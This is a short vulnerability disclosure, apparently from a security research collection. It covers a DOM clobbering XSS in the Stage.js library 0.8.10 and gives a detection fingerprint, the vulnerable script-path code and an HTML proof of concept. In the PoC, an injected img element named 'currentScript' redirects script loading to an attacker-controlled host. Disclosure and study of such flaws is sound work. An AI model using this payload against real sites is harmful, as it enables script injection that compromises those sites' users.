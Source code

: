 ## Stage.js

### Meta

+ Library: Stage.js
+ Stars: 2.4K
+ Version: 0.8.10
+ Fingerprint: `typeof Stage !== 'undefined' && typeof Stage.create === 'function'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/piqnt/stage.js

URL:
+ `https://cdn.jsdelivr.net/npm/stage-js@1.0.0-alpha.4/+esm`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.min.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.min.js`

### Vulnerable Code Snippet

```javascript
  function getScriptSrc() {
    // HTML5
    if (document.currentScript) {
      return document.currentScript.src;
    }
```

```javascript
  return function(url) {
    if (/^\.\//.test(url)) {
      var src = getScriptSrc();
      var base = src.substring(0, src.lastIndexOf('/') + 1);
      url = base + url.substring(2);
      // } else if (/^\.\.\//.test(url)) {
      // url = base + url;
    }
    return url;
  };
```

## PoC

```html
<!--Library-->
<script src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js" integrity="sha512-rA/8kCbIrzxcXW6akXAiN6FnpM+VW2iv9Zzw4ghu5Mt7xDobt3oraMSDxDeqq4kSUkaTBVdNOy1iyEyFhmceCw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

<script>
Stage.preload('./a.js')
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```